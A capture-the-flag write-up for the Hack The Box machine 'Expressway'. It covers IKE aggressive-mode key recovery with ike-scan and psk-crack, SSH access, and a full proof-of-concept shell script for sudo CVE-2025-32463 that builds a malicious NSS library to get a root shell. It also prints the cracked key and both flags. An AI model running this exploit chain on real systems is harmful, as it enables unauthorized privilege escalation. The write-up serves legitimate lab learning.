









# Expressway

- Link : https://app.hackthebox.com/machines/Expressway
- Release date : 20.09.2025
- OS : Linux
- Difficulty : Easy
- Points : 20

## Tools

- nmap
- ike-scan
- psk-crack
- ssh

## Exploitation

### Finding the first flag

I started to scan the target with nmap to find if any of the 100 most common ports are open, either TCP or UDP.

```bash
nmap 10.10.11.87 -v -sS -sU --top-ports 100
```



We can see that 2 ports are open, TCP 22 (ssh) and UDP 500 (isakmp). Since ssh is often not directly exploitable, I decided to investigate the isakmp service.

ISAKMP is a protocol used to establish a security association and cryptographic keys in an Internet environment. It is commonly used in VPNs to set up secure communication channels over the internet. I found out that there is a vulnerability in the ISAKMP protocol implementation. The IKEv1 (Internet Key Exchange protocol), which is part of ISAKMP, can be vulnerable when performing an aggressive mode handshake. In this mode, the identities of both the initiator and responder are transmitted in clear text, this can be exploited to perform offline dictionary attacks to recover pre-shared keys (PSKs).

Knowing this, we can use `ike-scan` to perform an aggressive mode handshake and find the identity of the server.

```bash
ike-scan 10.10.11.87 -M -A
```



Now that we found the identity of the server, we can use `ike-scan` again to provide the necessary data to create a PSK hash file.

```bash
ike-scan 10.10.11.87 -M -A --id=ike@expressway.htb -Ppsk.txt
```



We can now use `psk-crack` to perform an offline dictionary attack using the `rockyou.txt` wordlist to find the pre-shared key.

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
```



That's it, we found the pre-shared key : `freakingrockstarontheroad`.

We can now use this key to connect to the ssh service.

```bash
ssh ike@10.10.11.87
```

Once connected, we start to list the files in the home directory and we are able to find the first flag by reading the `user.txt` file.



```bash
cat user.txt
```

**First flag** : `81c22bcb1aedd6dc8c8c712790e60e25`

### Finding the second flag

Now that we are connected to the target, we can start to enumerate the system to find a way to escalate our privileges. We can use `find / -perm -4000 -type f 2>/dev/null` to find all the files with the SUID bit set so that we can try to execute them with root privileges.



Let's checkout if the version of `/usr/local/bin/sudo` is vulnerable to any exploit.

```bash
/usr/local/bin/sudo --version
```



It is ! As we can see on exploit-db, the version `1.9.17` of `sudo` is vulnerable to a local privilege escalation.



[Exploit link](https://www.exploit-db.com/exploits/52352)

We can now use the exploit to escalate our privileges to root.

```bash
nano exploit
```

```bash
#!/bin/bash
# sudo-chwoot.sh – PoC CVE-2025-32463
set -e

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd "$STAGE"

# 1. NSS library
cat > woot1337.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0,0);          /* change to UID 0 */
    setregid(0,0);          /* change  to GID 0 */
    chdir("/");             /* exit from chroot */
    execl("/bin/bash","/bin/bash",NULL); /* root shell */
}
EOF

# 2. Mini chroot with toxic nsswitch.conf
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc            # make getgrnam() not fail

# 3. compile libnss_
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "[*] Running exploit…"
sudo -R woot woot                 # (-R <dir> <cmd>)
                                   # • the first “woot” is chroot
                                   # • the second “woot” is and inexistent
command
                                   #   (only needs resolve the user)

rm -rf "$STAGE"
```

```bash
chmod +x exploit
```



Finally, we can find the second flag by reading the `root.txt` file.

```bash
cat /root/root.txt
```

**Second flag** : `2940ccc21b6eb677d669704346f4507d`
